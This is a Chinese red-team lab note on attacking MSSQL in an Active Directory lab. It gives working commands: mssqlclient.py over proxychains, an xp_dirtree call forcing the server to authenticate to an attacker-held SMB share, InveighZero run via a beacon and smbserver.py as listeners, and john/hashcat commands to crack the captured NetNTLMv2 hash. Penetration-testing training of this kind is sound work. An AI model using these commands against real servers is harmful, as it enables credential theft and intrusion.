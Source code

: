 Column1
-------
SRV-1 
```


```mssqlclient.py```连接mssql，需要账号密码
```
root@kali:~# proxychains python3 /usr/local/bin/mssqlclient.py -windows-auth DEV/bfarmer@10.10.17.25
```

GUI连接工具:[HeidiSQL](https://www.heidisql.com/)或者[SMSS](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms)

![alt GUI](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/heidi.png?width=1920)


# MSSQL NetNTLM Capture

通过mssql的xp_dirtree命令可以进行中继攻击

## 方法一

1. 监听
首先在本地监听，使用[InveighZero](https://github.com/Kevin-Robertson/InveighZero)进行监听，需要本地管理员权限
```
beacon> execute-assembly C:\Tools\InveighZero\Inveigh\bin\Debug\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
```
2. 触发
在mssql上，执行命令```EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1```，10.10.17.231的IP地址就是上面监听的机器

3. 收到NTML
监听机器收到的NTML应该是下面格式
```
[+] [2021-05-14T15:33:49] TCP(445) SYN packet from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) negotiation request detected from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) NTLM challenge 3006547FFC8E90D8 sent to 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) NTLMv2 captured for DEV\svc_mssql from 10.10.17.25(SRV-1):50323:
svc_mssql::DEV:[...snip...]
```

4. 破解
john
```
john --format=netntlmv2 --wordlist=wordlist svc_mssql-netntlmv2
```

hashcat
```
hashcat -a 0 -m 5600 svc_mssql-netntlmv2 wordlist
```

## 方法二

可以使用 WinDivert + rportfwd把smb流量转发到teamserver（就是kali机），然后再kali使用[smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)监听，这个方法前面几章已经有展示。

监听
```
root@kali:~# python3 /usr/local/bin/smbserver.py -smb2support pwn .
```

# MSSQL Command Execution

```